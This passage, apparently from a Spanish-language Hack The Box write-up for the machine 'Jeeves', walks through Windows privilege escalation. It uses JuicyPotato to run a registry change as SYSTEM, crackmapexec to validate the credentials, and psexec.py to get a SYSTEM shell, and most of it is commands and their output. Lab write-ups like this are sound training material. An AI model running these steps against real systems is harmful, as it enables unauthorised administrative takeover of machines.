 Antes de validar con `crackmapexec` debemos hacer lo siguiente 

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Prives>
```

Ahora validamos con **crackmapexec**

```bash
❯ crackmapexec smb 10.10.10.63 -u 'miguel' -p 'miguel123$!'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\miguel:miguel123$! (Pwn3d!)
```

Ahora nos podemos conectar con la contraseña que proporcionamos

```bash
❯ psexec.py WORKGROUP/miguel@10.10.10.63 cmd.exe
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file TjCVyPZu.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service ntnX on 10.10.10.63.....
[*] Starting service ntnX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

Bueno hay muchas formas de abusar del **JuicyPotato.exe** también pudimos enviarnos una reverse shell en los siguientes recursos te dejo formas de usarlo en otras maquinas 

<https://mikerega7.github.io/htb-writeup-flight/#escalada-de-privilegios>

<https://gatogamer1155.github.io/>

## Extra 
